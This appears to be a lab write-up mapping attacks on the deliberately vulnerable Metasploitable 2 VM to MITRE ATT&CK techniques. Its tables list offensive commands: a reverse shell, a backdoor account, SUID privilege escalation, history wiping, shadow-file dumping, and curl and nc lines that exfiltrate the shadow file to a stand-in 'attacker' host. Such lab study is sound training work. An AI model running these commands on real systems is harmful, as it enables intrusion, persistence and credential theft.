

# MITRE ATT&CK Mapping for Metasploitable 2 Lab

This document maps each exploited vulnerability to the MITRE ATT&CK framework (v14) tactics and techniques.

## Matrix Overview

| Phase | Tactic ID | Tactic Name | Techniques Used |
|-------|-----------|-------------|-----------------|
| 1 | TA0043 | Reconnaissance | T1595, T1046 |
| 2 | TA0001 | Initial Access | T1190, T1078 |
| 3 | TA0002 | Execution | T1059 |
| 4 | TA0003 | Persistence | T1136, T1098 |
| 5 | TA0004 | Privilege Escalation | T1068, T1548 |
| 6 | TA0005 | Defense Evasion | T1070, T1222 |
| 7 | TA0006 | Credential Access | T1003, T1110 |
| 8 | TA0007 | Discovery | T1082, T1083, T1046, T1016 |
| 9 | TA0009 | Collection | T1005, T1119 |
| 10 | TA0010 | Exfiltration | T1041, T1567 |

## Detailed Technique Mapping

### 1. Reconnaissance (TA0043)

| Technique | ID | Description | Lab Example |
|-----------|-----|-------------|--------------|
| Active Scanning | T1595 | Scanning target networks | Nmap full port scan |
| Network Service Scanning | T1046 | Discovering open ports and services | `nmap -sV` banner grabbing |

### 2. Initial Access (TA0001)

| Technique | ID | Description | Lab Example |
|-----------|-----|-------------|--------------|
| Exploit Public-Facing Application | T1190 | Exploiting vulnerable services | vsftpd backdoor, Samba usermap script |
| Valid Accounts | T1078 | Using default credentials | MySQL root no password, msfadmin SSH |

### 3. Execution (TA0002)

| Technique | ID | Description | Lab Example |
|-----------|-----|-------------|--------------|
| Command and Scripting Interpreter | T1059 | Using shell commands | Reverse shell, `nc -e /bin/bash` |

### 4. Persistence (TA0003)

| Technique | ID | Description | Lab Example |
|-----------|-----|-------------|--------------|
| Create Account | T1136 | Adding backdoor user | `useradd hacker` |
| Account Manipulation | T1098 | SSH key backdoor | `echo "key" >> authorized_keys` |

### 5. Privilege Escalation (TA0004)

| Technique | ID | Description | Lab Example |
|-----------|-----|-------------|--------------|
| Exploitation for Privilege Escalation | T1068 | Exploiting kernel or SUID binaries | SUID nmap → `!sh` root shell |
| Abuse Elevation Control Mechanism | T1548 | Sudo abuse | `sudo -l` then `sudo nmap --interactive` |

### 6. Defense Evasion (TA0005)

| Technique | ID | Description | Lab Example |
|-----------|-----|-------------|--------------|
| Indicator Removal | T1070 | Clearing command history | `history -c`, `rm ~/.bash_history` |
| File and Directory Permissions Modification | T1222 | Changing file permissions | `chmod +s` on a binary |

### 7. Credential Access (TA0006)

| Technique | ID | Description | Lab Example |
|-----------|-----|-------------|--------------|
| OS Credential Dumping | T1003 | Extracting /etc/passwd and /etc/shadow | `cat /etc/shadow` |
| Brute Force | T1110 | Password guessing | Hydra against Telnet or SSH |

### 8. Discovery (TA0007)

| Technique | ID | Description | Lab Example |
|-----------|-----|-------------|--------------|
| System Information Discovery | T1082 | OS and kernel version | `uname -a`, `cat /etc/issue` |
| File and Directory Discovery | T1083 | Finding sensitive files | `find / -name "*.conf"` |
| Network Service Discovery | T1046 | Port scanning from compromised host | `netstat -tulpn`, `nmap` from shell |
| System Network Configuration Discovery | T1016 | Interface and route info | `ifconfig -a`, `route -n` |

### 9. Collection (TA0009)

| Technique | ID | Description | Lab Example |
|-----------|-----|-------------|--------------|
| Data from Local System | T1005 | Copying local files | Dumping /etc/shadow to local system |
| Automated Collection | T1119 | Scripted data gathering | `./credential_harvesting.sh` |

### 10. Exfiltration (TA0010)

| Technique | ID | Description | Lab Example |
|-----------|-----|-------------|--------------|
| Exfiltration Over C2 Channel | T1041 | Using established command channel | `nc` file transfer over reverse shell |
| Exfiltration Over Web Service | T1567 | Uploading to web endpoint | `curl -F "file=@shadow" http://attacker` |

## Attack Flow Visualization

## Real-World Scenario: Full Attack Chain

This table maps a complete penetration testing attack chain from initial reconnaissance to data exfiltration, mapping each step to the MITRE ATT&CK framework.

| Step | ATT&CK Technique | Command/Action |
|------|------------------|----------------|
| 1 | T1046 - Network Service Scanning | `nmap -sV 192.168.56.101` |
| 2 | T1190 - Exploit Public-Facing App | `msfconsole -x "use exploit/unix/ftp/vsftpd_234_backdoor; set RHOSTS 192.168.56.101; exploit"` |
| 3 | T1059 - Command & Scripting Interpreter | Reverse shell obtained |
| 4 | T1082 - System Information Discovery | `uname -a; id` |
| 5 | T1068 - Exploitation for Privilege Escalation | `find / -perm -4000 2>/dev/null` → SUID nmap |
| 6 | T1548.001 - Setuid/Setgid Binaries | `nmap --interactive` → `!sh` → root |
| 7 | T1136 - Create Account | `useradd -m -s /bin/bash backdoor` |
| 8 | T1003 - OS Credential Dumping | `cat /etc/shadow` |
| 9 | T1005 - Data from Local System | Copy shadow file |
| 10 | T1041 - Exfiltration Over C2 Channel | `nc attacker 4444 < shadow` |

## References

- [MITRE ATT&CK Matrix](https://attack.mitre.org/)
- [ATT&CK Navigator](https://mitre-attack.github.io/attack-navigator/)